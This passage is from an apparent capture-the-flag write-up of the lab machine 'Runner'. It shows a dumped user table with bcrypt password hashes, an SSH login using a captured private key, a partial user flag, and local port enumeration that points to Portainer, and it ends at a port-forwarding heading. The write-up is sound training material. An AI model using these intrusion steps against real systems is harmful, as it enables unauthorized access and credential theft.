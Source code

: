 Next, I peeked into the `database_dump` and found two users: admin and matthew

```text
$ cat users
ID, USERNAME, PASSWORD, NAME, EMAIL, LAST_LOGIN_TIMESTAMP, ALGORITHM
1, admin, $2a$07$neV5T/BlEDiMQUs.gM1p4uYl8xl8kvNUo4/8Aja2sAWHAQLWqufye, John, john@runner.htb, 1716003942846, BCRYPT
2, matthew, $2a$07$q.m8WQP8niXODv55lJVovOmxGtg6K/YPHbD48/JQsdGLulmeVo.Em, Matthew, matthew@runner.htb, 1709150421438, BCRYPT
```

## SSH as John

With the `id_rsa` key in hand, I tried SSHing as `john`

```bash
$ ssh -i id_rsa john@runner.htb
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-102-generic x86_64)
...snap...
john@runner:~$ id
uid=1001(john) gid=1001(john) groups=1001(john)
john@runner:~$ whoami
john
john@runner:~$ 
```

Got the user.txt 

```bash
d94d1...
```

## Privilege Escalation

Before jumping into any automated scripts, I like to do some manual poking around. Running `netstat -lantp` showed some interesting ports listening

```bash
john@runner:~$ netstat -lantp
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:5005          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:9000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:9443          0.0.0.0:*               LISTEN      -                   
...snap...
```

Port `9000` and `9443` caught my eye. A quick Google search told me that 9000 is often used by Portainer, a Docker management tool
#### Port forwarding using ssh
